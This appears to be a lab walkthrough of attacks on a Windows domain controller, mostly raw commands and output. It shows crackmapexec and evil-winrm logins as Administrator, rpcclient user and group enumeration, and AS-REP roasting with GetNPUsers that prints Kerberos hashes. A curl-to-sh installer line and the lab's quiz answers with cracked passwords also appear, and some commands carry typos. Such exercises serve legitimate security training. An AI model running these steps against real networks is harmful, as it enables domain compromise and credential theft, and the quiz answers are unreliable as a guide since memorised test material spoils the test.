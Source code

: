 Installation for Kali 🐲
Copy
apt update
apt install netexec






curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
apt install pipx git
pipx ensurepath
pipx install poetry
poetry self add "poetry-dynamic-versioning[plugin]"
poetry dynamic-versioning enable





 crackmapexec smb 10.201.3.6


  crackmapexec smb 10.201.3.6
SMB         10.201.3.6   445    CONTROLLER-1     [*] Windows 10.0 Build 17763 x64 (name:CONTROLLER-1) (domain:CONTROLLER.local) (signing:True) (SMBv1:False)
                    

crackmapexec smb 10.201.3.6 --shares


crackmapexec smb 10.201.3.6 --shares



$ crackmapexec smb 10.201.3.6 -u Administrator -p 'P@$$W0rd'
SMB         10.201.3.6   445    CONTROLLER-1     [*] Windows 10.0 Build 17763 x64 (name:CONTROLLER-1) (domain:CONTROLLER.local) (signing:True) (SMBv1:False)
SMB         10.201.3.6   445    CONTROLLER-1     [+] CONTROLLER.local\Administrator:P@$$W0rd (Pwn3d!)




 crackmapexec winrm  10.201.3.6 -u Administrator -p 'P@$$W0rd'
SMB         10.201.3.6   5985   CONTROLLER-1     [*] Windows 10.0 Build 17763 (name:CONTROLLER-1) (domain:CONTROLLER.local)
HTTP        10.201.3.6   5985   CONTROLLER-1     [*] http://10.201.3.6:5985/wsman
WINRM       10.201.3.6   5985   CONTROLLER-1     [+] CONTROLLER.local\Administrator:P@$$W0rd (Pwn3d!)




xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.3.6 /u:Administrator /p:'P@$$W0rd'



evil-winrm -i 10.201.3.6 -u Administrator -p 'P@$$W0rd' 




pcclient -U ""  10.201.3.6 -N


rpcclient -U 'Administrator%P@$$W0rd'  10.201.3.6     >  user.txt


└─$ cat userK.txt | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' | sponge userK.txt 


rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[Machine1] rid:[0x44f]
user:[Machine2] rid:[0x450]
user:[Admin1] rid:[0x451]
user:[Admin2] rid:[0x452]
user:[User1] rid:[0x453]
user:[User2] rid:[0x454]
user:[SQLService] rid:[0x455]
user:[User3] rid:[0x456]
user:[HTTPService] rid:[0x457]
user:[sshd] rid:[0x458]
rpcclient $> 

pcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
rpcclient $> 



rpcclient $> querygroupmem 0x206
        rid:[0x1f4] attr:[0x7]
        rid:[0x451] attr:[0x7]
        rid:[0x452] attr:[0x7]
        rid:[0x455] attr:[0x7]
rpcclient $> 


rpcclient $> queryuser 0x1f4
        User Name   :   Administrator
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Built-in account for administering the computer/domain
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Tue, 05 Aug 2025 15:27:35 EDT
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Mon, 25 May 2020 15:22:39 EDT
        Password can change Time :      Tue, 26 May 2020 15:22:39 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x1f4
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000008
        padding1[0..7]...
        logon_hrs[0..21]..





ython3  GetNPUsers.py -usersfile /home/kali/Downloads/kerberos/userK.txt -no-pass CONTROLLER.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User Machine1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Machine2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Admin1 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$Admin2@CONTROLLER.LOCAL:ccd6aa0e219d14f9ff79dd3a7cb6e4fa$acbc76a88368b945f912f56ed7e77a870faea355ab5a2b98d5bff92d62fd8718723114d0f2d94d070bc2c296111ad47b13cc0cfbd17153e215082af5e2470334933681d07fdd40fde2c6707b7e411dd2b33a9951a54dd48660a06b0f8c1ed0622ea62d9ee38d64de1aa4c25138168f6bf5c907feb9e8d38483b735bf112b027bdffa4365b644fac9c52aac4b8809bba29f5e8ddee6065aef1c489ff54326c7864e610df50d6fbc5d7bc901a004f0be94cdcbc979fb849423e0e218b031d7b318d5216de23e8b96fa678b9e468b1b212dc03956324f9150c516ce09a7ff387ab79d29b8d102c5910777443e3ab3f5aae2b189cd6f
[-] User User1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User User2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SQLService doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$User3@CONTROLLER.LOCAL:de68f7ddf0afdefd1da370343fdba3a8$3081a0231cf3b290de4c2ee1722bef56f84d182a3463311a6441e1cfe1db4d788a3275cb4d752a28de8a977466f10e73681c65cfdeefba7b6baf30a3ebb6a50b384bad6e4d2b917afb89a7d79ad90d9745ca7e9403530738a9160c450fb0132dfee20eefbd242530e2783f204404cc84ef2933b80dc7c0b9773ecd9610d5e1aa1627771a17394c3fc74806052b86c1448f69abf79cfb02dfac3c52d168f53e72b363c7aaf9e70bc8b2b520e5b8184542404c821e784f005a312a58a390f7b4f7f0ac9373c444a01ce185efe4fdb777556127490e54c2f5eff5c70cc819d04cefbf86f36526625cba3a30cfaadb6c628e22ddef1f
[-] User HTTPService doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sshd doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                                                                                                      
┌──(kali㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ 











What hash type does AS-REP Roasting use?

Ans: Kerberos 5 AS-REP etype 23

Which User is vulnerable to AS-REP Roasting?

Ans: User3

What is the User’s Password?

Ans: Password3

Which Admin is vulnerable to AS-REP Roasting?

Ans: Admin2

What is the Admin’s Password?

Ans: P@$$W0rd2